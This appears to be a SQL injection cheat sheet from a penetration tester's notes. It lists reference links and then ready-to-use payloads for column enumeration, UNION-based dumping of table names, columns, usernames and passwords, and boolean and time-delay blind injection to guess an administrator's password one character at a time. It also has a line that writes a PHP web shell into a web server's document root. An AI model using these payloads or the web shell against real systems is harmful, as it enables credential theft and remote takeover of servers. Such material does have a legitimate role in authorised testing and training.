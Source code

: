 #### SQL-Injection

```bash
# References
https://portswigger.net/web-security/sql-injection
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.exploit-db.com/papers/17934
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://pentestwiki.org/sql-injection/ 
https://www.tarlogic.com/blog/red-team-tales-0x01/

# Enumeration

' ORDER BY 1--      #Increase the number to determine the number of columns
' UNION SELECT NULL,NULL,NULL--   #Confirm the "Order by" statement 
' UNION SELECT NULL,NULL,'a',NULL-- #Define string/numerical data

# Database Attacks
'+UNION+SELECT+@@version,+NULL#
SELECT * FROM information_schema.tables

SHOW GRANTS;  #Get current user permissions

SHOW VARIABLES; #Get variables related to the environment

select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir; #MySQL database enumeration query

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--  #List Tables

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--  #List Columns

'+UNION+SELECT+username,+password+FROM+users--    #Get Username & Password

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--     #Concatenation for multiple vaules

# SQL Web Shell
'UNION SELECT "<?php echo passthru($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/command.php'>) #MedJed

# Blind Enumeration (https://auspisec.com/blog/20220118/proving_grounds_butch_walkthrough.html)
TrackingId =u5YD3PapBcR4lN3e7Tj4' AND '1'='1    #Test w/ a condition based injection (True or False)

' IF (1=1) WAITFOR DELAY '0:0:10';--  #Evaluates to true and waits 10 secs (Time Delay based)

' IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--  #This query uses Boolean to guess the table name of a database

' IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'username')=1) WAITFOR DELAY '0:0:10';-- #This query uses Boolean to guess the column name of a table

TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a #This query verifies there is table called users.

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  #Checks for password length

TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='§a§  #Use with Burp Sniper, a Simple List Payload, and Grep Match to find the password one character at a time incrementing to total length.
```